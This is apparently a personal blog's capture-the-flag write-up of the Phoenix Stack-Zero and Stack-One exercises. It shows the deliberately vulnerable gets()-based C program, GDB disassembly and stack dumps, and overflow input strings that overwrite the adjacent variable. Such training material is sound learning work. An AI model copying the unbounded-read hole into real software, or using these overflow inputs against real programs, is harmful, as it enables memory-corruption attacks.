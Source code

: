 ```yaml
---
title: Phoenix Stack-Zero and One
author: Marius Kimmina
date: 2019-10-12 14:10:00 +0800
categories: [CTF, Binary Exploitation]
tags: [Buffer Overflow]
published: true
---
```


### 0x0. Introduction
Phoenix is an entry level IT-Security challenge hosted at *https://exploit.education/*. It consists of multiple levels introducing participants to the concepts of binary exploitation as well as some network-security fundamentals in later levels. I myself am fairly new to this field and hope to learn a lot during these challenges and will (probably) post my Write-ups for all of them as I advance.


### 0x1. Setup

Download the Phoenix amd64 VM from **https://exploit.education/downloads/**   
The download contains a bash script that you will need to make executable with chmod +x name-of-bash.sh
If you have qemu installed on your system, the VM should begin to boot when you execute the script.

You can of course just do everything within the VM itself, i prefer to ssh into it to have a more familiar shell and copy paste capabilities. If you want to do that as well you will notice that you can not ssh straight to the IP of your VM, instead if you look into the boot script you will find the following line:
```bash
-netdev user,id=unet,hostfwd=tcp:127.0.0.1:2222-:22 \
```

This means that port 22 of your VM is getting forwarded to localhost or 127.0.0.1 on port 2222.

```bash
ssh user@127.0.0.1 -p 2222
```

and login with user/user which are default credentials as documented on https://exploit.education/phoenix/getting-started/

### 0x2. Taking a look at the source code

The code can be found at https://exploit.education/phoenix/stack-zero/

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
"Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
struct {
char buffer[64];
volatile int changeme;
} locals;

printf("%s\n", BANNER);

locals.changeme = 0;
gets(locals.buffer);

if (locals.changeme != 0)
{
puts("Well done, the 'changeme' variable has been changed!");
} else {
puts(
"Uh oh, 'changeme' has not yet been changed. Would you like to try "
"again?");
}

exit(0);
}
```

Aside from the banner printing, this program does two simple things. It takes one argument and puts it into a variable called buffer which has a size of 64. It also has Integer variable called changeme which gets set to 0 and is never changed. At the end the program checks if "changeme" is still zero and prints a statement depend on the result.
So our challenge here is to change the changeme Variable and for the first level its made pretty obvious that this program is vulnerable to a Bufferoverflow.

There are some things to be noted tho.
##### Why are the variables buffer and chageme in a struct?
Contiguous(adjacent) memory locations are used to store structure members in memory. Or in other words: This way our variables will always end up next to each other in memory.

##### Why is changeme "volatile"?
This tells the compiler to not optimize the usage of this variable,
without the volatile keyword the compiler would just skip the if statement altogether because you know the variable is never changed inside the code so why would the compiler bother to check if it changed anyway?

##### How do you know that this is vulnerable?
We take user input in form of an argument and put it right into the buffer variable with no security checks whatsoever. If you look up the manual page for "gets" you will see the following:

```
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read
and because gets() will continue to store characters past the end
of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.
```

### 0x3. Exploring and Exploiting the program in GDB

Let's start with taking a look at the assembler code, 'disassemble main' will produce the following output:

```
Dump of assembler code for function main:
0x00000000004005dd <+0>: push rbp
0x00000000004005de <+1>: mov rbp,rsp
0x00000000004005e1 <+4>: sub rsp,0x60
0x00000000004005e5 <+8>: mov DWORD PTR [rbp-0x54],edi
0x00000000004005e8 <+11>: mov QWORD PTR [rbp-0x60],rsi
0x00000000004005ec <+15>: mov edi,0x400680
0x00000000004005f1 <+20>: call 0x400440 <puts@plt>
0x00000000004005f6 <+25>: mov DWORD PTR [rbp-0x10],0x0
0x00000000004005fd <+32>: lea rax,[rbp-0x50]
0x0000000000400601 <+36>: mov rdi,rax
0x0000000000400604 <+39>: call 0x400430 <gets@plt>
0x0000000000400609 <+44>: mov eax,DWORD PTR [rbp-0x10]
0x000000000040060c <+47>: test eax,eax
0x000000000040060e <+49>: je 0x40061c <main+63>
0x0000000000400610 <+51>: mov edi,0x4006d0
0x0000000000400615 <+56>: call 0x400440 <puts@plt>
0x000000000040061a <+61>: jmp 0x400626 <main+73>
0x000000000040061c <+63>: mov edi,0x400708
0x0000000000400621 <+68>: call 0x400440 <puts@plt>
0x0000000000400626 <+73>: mov edi,0x0
0x000000000040062b <+78>: call 0x400450 <exit@plt>
End of assembler dump.
```

Now I set two break points one before our input but with the stack already in place and one after our input, in this case I choose:

```
break *0x4005e5
break *0x400626
```

Now to have a good view on what happens on the stack I define a command "stack" that will print all words associated with it

```
gdb➤ define stack
Type commands for definition of "stack".
End with a line saying just "end"
>x/25wx $rsp
>end
```

now type "run" followed by "stack" and you should see the following output

```
0x7fffffffe5d0: 0x00000000 0x00000000 0x00000000 0x00000000
0x7fffffffe5e0: 0x00000000 0x00000000 0x00000000 0x00000000
0x7fffffffe5f0: 0x00000000 0x00000000 0x00000000 0x00000000
0x7fffffffe600: 0x00000000 0x00000000 0xffffe688 0x00007fff
0x7fffffffe610: 0x00000001 0x00000000 0xffffe698 0x00007fff
0x7fffffffe620: 0x004005dd 0x00000000 0x00000000 0x00000000
0x7fffffffe630: 0x00000001
```

This is our Stack with rsp at 0x7fffffffe5d0 and rbp at 0x7fffffffe630.  
But we still need to know where our "changeme" variable is located to solve this challenge meaningful.
We know from the source code that changeme gets first initialized and later set to 0, since there is only one variable
getting set to zero in this code its pretty easy to find:

```
0x00000000004005f6 <+25>: mov DWORD PTR [rbp-0x10],0x0
```

Therefore, changeme is located at rbp-0x10 or 0x7fffffffe620.  
Hit run again this time you should get prompted for input, a commonly used pattern for that can easily be recognized in memory is the alphabet.
In case you are to lazy to craft your own input this one will do:

```
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```

This will of course already give you the "Well done, the 'changeme' variable has been changed!" output, but lets see what's really going on.
You should have hit the second breakpoint now so type "stack" again and see what changed.

```
0x7fffffffe5d0: 0xffffe688 0x00007fff 0x00000000 0x00000001
0x7fffffffe5e0: 0x41414141 0x42424242 0x43434343 0x44444444
0x7fffffffe5f0: 0x45454545 0x46464646 0x47474747 0x48484848
0x7fffffffe600: 0x49494949 0x4a4a4a4a 0x4b4b4b4b 0x4c4c4c4c
0x7fffffffe610: 0x4d4d4d4d 0x4e4e4e4e 0x4f4f4f4f 0x50505050
0x7fffffffe620: 0x51515151 0x52525252 0x53535353 0x54545454
0x7fffffffe630: 0x55555555
```

I have to admit I have no idea why our input starts at 0x7fffffffe5e0 and not 0x7fffffffe5d0, so if you do please let me know at mindslave.blog@protonmail.com.
What we can clearly see here tho is that "changeme" got overwritten by the letter Q (0x51), you can just do a quick google search for ASCII-table to know which letter translates to which hexadecimal number.
Knowing this we have not just solved this level but the next one (StackOne) is also trivial since all you have to is to overwrite changeme with a specific value, so just use AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP followed by the value you want "changeme" to have.

```
run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPbYlI
Starting program: /opt/phoenix/amd64/stack-one AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPbYlI
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

This is my first ever blog post and I doubt anyone ever reads it all the way but if you did, thank you very much :)







